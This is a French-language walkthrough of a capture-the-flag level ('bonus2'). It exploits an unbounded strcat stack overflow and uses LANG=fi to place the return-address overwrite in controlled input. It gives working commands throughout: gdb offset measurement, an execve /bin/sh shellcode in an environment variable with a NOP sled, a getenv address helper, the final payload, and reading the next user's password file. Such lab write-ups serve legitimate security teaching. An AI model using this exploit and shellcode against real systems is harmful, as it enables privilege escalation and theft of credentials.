


# Bonus2 — Walkthrough

> **En résumé :** `main` range `argv[1]` (40 o.) et `argv[2]` (32 o.) dans deux
> buffers collés, les fusionne en un `name` de 76 octets, puis appelle
> `greetuser(name)`. `greetuser` met un préfixe de salutation (selon `$LANG`)
> dans un buffer, puis y `strcat` le `name` **sans borne** → débordement. En
> forçant `LANG=fi`, le préfixe finnois (plus long) décale la cible pour que
> l'**adresse de retour** tombe dans les 32 octets contrôlés de `argv[2]`. On y
> place l'adresse d'un shellcode (variable d'env, NX désactivé) → shell `bonus3`.

> ✅ **Protections vérifiées :** `readelf -l ./bonus2 | grep GNU_STACK` → `RWE`
> (pile exécutable, **NX désactivé**). On peut donc exécuter un shellcode sur la
> pile / en variable d'environnement.

## Le process de l'exploit



## Trouver l'offset exact (méthode gdb — fiable)

Le calcul théorique sur la pile donne une **estimation** (~80 octets du début du
buffer jusqu'à la @retour), mais le plus sûr est de le **mesurer dans gdb** avec
un motif où chaque groupe de 4 est unique :

```bash
gdb -q ./bonus2
(gdb) run $(python -c "print 'A'*40") $(python -c "print 'BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII'")
# crash :
(gdb) info registers eip
# → eip = 0x47474646
```

`eip = 0x47474646` → octets mémoire (little-endian) `46 46 47 47` = **`FFGG`**.
Dans le motif `...FFFFGGGG...`, `FFGG` tombe aux positions **18 à 21** :

```
position argv[2] : ...16 17 18 19 20 21 22 23...
motif            : ... F  F  F  F  G  G  G  G ...
                          └────┬────┘
                       FFGG = argv[2][18..21]  ← la @retour
```

➡️ **L'adresse de retour est à `argv[2][18]`** (et non 22 : l'estimation
théorique était décalée de 4 octets, on se fie toujours à gdb).

## Pourquoi LANG=fi

`greeting` se remplit de gauche à droite : `[ préfixe ][ name... ]`, et la
@retour est à une **position fixe** dans ce buffer. Le préfixe **consomme** les
premières cases ; `name` n'occupe que ce qui reste jusqu'à la @retour. Donc :

```
préfixe COURT (anglais "Hello ", 6 o.)   → name démarre tôt  → @retour ≈ argv[2][30]
préfixe LONG  (finnois "Hyvää päivää ")  → name démarre tard → @retour  = argv[2][18]
```

Or on ne contrôle que **32 octets** de `argv[2]` (`strncpy(buf2, argv[2], 0x20)`),
soit les indices `0..31` :

- **anglais → `argv[2][30]`** : l'adresse (4 octets) irait de 30 à **33**, mais
  32 et 33 ne sont **pas copiés** → adresse tronquée → **impossible** ❌
- **finnois → `argv[2][18]`** : l'adresse va de 18 à 21, **bien dans les 0..31**
  → on peut l'écrire en entier → **OK** ✅

**Nuance contre-intuitive :** un préfixe plus long ne pousse PAS la cible plus
loin — il la fait tomber **plus tôt** dans `argv[2]`. La @retour est fixe ; plus
le préfixe mange de place au début, moins il reste de `name` pour l'atteindre,
donc l'indice visé est **plus petit** (18 au lieu de 30) → il rentre dans les 32.



## Disposition de argv[2] (32 octets)

```
┌──────────────┬──────────────────────┬──────────────┐
│  'A' × 18    │  @shellcode (4 o.)   │  'A' × 10    │
│  octets 0-17 │  octets 18-21        │  octets 22-31│
└──────────────┴──────────────────────┴──────────────┘
                      ↑
              écrase la @retour de greetuser
```

## Construire l'exploit

```bash
# 1. langue → préfixe finnois (long)
export LANG=fi

# 2. shellcode en variable d'env, avec un NOP sled (NX off).
#    200 suffit : le sled sert juste à absorber le petit écart d'adresse entre
#    /tmp/ge2 et bonus2. (Agrandir à 1000+ seulement si l'écart dépasse la marge.)
export SHELLCODE=$(python -c "print '\x90'*200 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

# 3. trouver l'adresse de SHELLCODE
#    ⚠️ nom UNIQUE (/tmp/getenv appartient déjà à bonus0 -> Permission denied)
cat > /tmp/ge2.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
int main(){ printf("%p\n", getenv("SHELLCODE")); return 0; }
EOF
gcc /tmp/ge2.c -o /tmp/ge2 && /tmp/ge2
# → ex: 0xbffffdd7  (le DÉBUT du sled ; prends TA valeur)

# 4. lancer — version AUTOMATIQUE (recommandée) :
#    - $(/tmp/ge2) récupère l'adresse du sled
#    - + 0x64 (100) vise le milieu du sled
#    - struct.pack('<I', ...) fait la conversion little-endian tout seul
#    - argv[2] = 18 (bourrage) + 4 (adresse) + 10 (bourrage) = 32 octets
#    Avantage : marche même si l'adresse change, pas de calcul à la main.
./bonus2 $(python -c "print 'A'*40") \
         $(python -c "import struct; print 'A'*18 + struct.pack('<I', $(/tmp/ge2) + 0x64) + 'A'*10")
```

> ⚠️ La version automatique ci-dessus relit `/tmp/ge2` à chaque lancement, donc
> elle reste juste même si l'adresse bouge. **N'écris jamais l'adresse en dur en
> copiant un exemple** : l'adresse de l'env change quand l'environnement change.

Version **manuelle** équivalente (si tu veux voir l'adresse) :

```bash
/tmp/ge2                       # ex: 0xbffffdd7
# 0xbffffdd7 + 0x64 = 0xbffffe3b  → little-endian (octets à l'envers) : \x3b\xfe\xff\xbf
./bonus2 $(python -c "print 'A'*40") $(python -c "print 'A'*18 + '\x3b\xfe\xff\xbf' + 'A'*10")
```

> Si ça crashe : l'écart `/tmp/ge2`↔`bonus2` dépasse la marge → agrandis le sled
> (`'\x90'*1000`+), ou augmente le `+ 0x64` pour viser plus loin dans le sled.

Résultat → shell aux droits de **bonus3** :

```bash
whoami          # → bonus3
cat /home/user/bonus3/.pass
```

## Pièges rencontrés (et comment on les a résolus)

| Symptôme | Cause | Fix |
|---|---|---|
| `Permission denied` sur `/tmp/getenv.c` | fichier déjà créé par bonus0 (sticky bit) | nom unique `/tmp/ge2` |
| crash, `eip = 0x41414141` (des `A`) | **LE vrai bug** : offset faux. On visait `argv[2][22]`, mais la @retour lit `argv[2][18]` → `eip` recevait des `A` → saut dans le vide, quelle que soit l'adresse/le sled | motif gdb → vrai offset = **18** |
| adresse `/tmp/ge2` ≠ adresse dans `bonus2` | l'emplacement de l'env varie (args, état du shell) | NOP sled (~200) + viser le **milieu** ; le sled pardonne l'écart |

> 💡 On a longtemps cru que le sled était trop petit, mais c'était l'**offset**.
> Un sled de 200 suffit dès que l'offset est bon — le sled n'absorbe que le petit
> écart d'adresse, pas une erreur d'offset (qui, elle, fait rater à coup sûr).

## Concepts à retenir

| Concept | Explication |
|---|---|
| `$LANG` contrôlé par l'attaquant | choisit la longueur du préfixe → décale la cible dans `argv[2]` |
| Préfixe UTF-8 | `ä` = 2 octets → le finnois est plus long → cible plus tôt → dans les 32 |
| `strcat` sans borne | colle `name` après le préfixe → déborde le buffer de greetuser |
| `strncpy(.., 0x20)` | limite `argv[2]` à 32 octets → contrainte : cible doit être ≤ 31 |
| Offset trouvé via gdb | motif unique → `eip` révèle l'offset exact (`argv[2][18]`), plus fiable que le calcul |
| NOP sled + env | un sled modeste (~200) suffit : il absorbe l'écart d'adresse helper↔cible, pas une erreur d'offset ; viser le milieu |
